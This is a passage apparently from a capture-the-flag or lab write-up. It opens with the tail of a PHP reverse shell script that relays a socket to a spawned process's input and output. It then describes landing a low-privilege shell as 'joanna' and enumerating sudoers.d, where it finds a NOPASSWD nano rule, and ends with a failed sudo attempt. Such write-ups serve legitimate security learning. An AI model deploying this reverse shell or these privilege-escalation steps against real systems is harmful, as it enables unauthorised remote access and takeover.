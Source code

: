 ```php
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);


        if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
        }


        if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
        }


        if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
        }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
        if (!$daemon) {
                print "$string\n";
        }
}

?> 
```
and that got us a pretty lame shell as `joanna` with the inability to do much. I did some basic enumeration here, the only interesting thing that I saw so far was in the sudoers.d file:

```console
$ ls -la /etc/sudoers
-r--r----- 1 root root 755 Nov 22 23:49 /etc/sudoers
$ ls -la /etc/sudoers.d
total 16
drwxr-xr-x  2 root root 4096 Nov 22 23:50 .
drwxr-xr-x 93 root root 4096 Jan  2 13:46 ..
-r--r-----  1 root root  958 Jan 18  2018 README
-rw-r--r--  1 root root   46 Nov 22 23:50 joanna
$ cat /etc/sudoers.d/joanna
joanna ALL=(ALL) NOPASSWD:/bin/nano /opt/priv
$ sudo /bin/nano /opt/priv 
sudo: PERM_ROOT: setresuid(0, -1, -1): Operation not permitted
sudo: unable to initialize policy plugin
```
